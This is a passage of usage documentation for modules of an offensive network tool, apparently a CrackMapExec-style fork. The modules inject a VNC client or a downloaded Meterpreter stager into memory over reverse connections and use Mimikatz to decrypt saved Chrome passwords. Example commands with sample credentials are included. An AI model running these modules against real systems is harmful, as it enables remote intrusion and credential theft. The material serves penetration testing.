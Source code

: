 Injects a VNC client in memory

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
    CONTYPE   Specifies the VNC connection type, choices are: reverse, bind (default: reverse).
    PORT      VNC Port (default: 5900)
    PASSWORD  Specifies the connection password.
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M invoke_vnc
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## met_inject                
Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```
    LHOST    IP hosting the handler
    LPORT    Handler port
    PAYLOAD  Payload to inject: reverse_http or reverse_https (default: reverse_https)
    PROCID   Process ID to inject into (default: current powershell process)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M met_inject
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikatz_enum_chrome      
Executes PowerSploit's Invoke-Mimikatz.ps1 script (Mimikatz's DPAPI Module) to decrypt saved Chrome passwords  
        Pros and cons vs the standard enum_chrome module:  
            + Opsec safe, doesn't touch disk  
            - Tends to error out and/or not decrypt all stored credentials (not sure why exactly, should work perfectly in theory)  
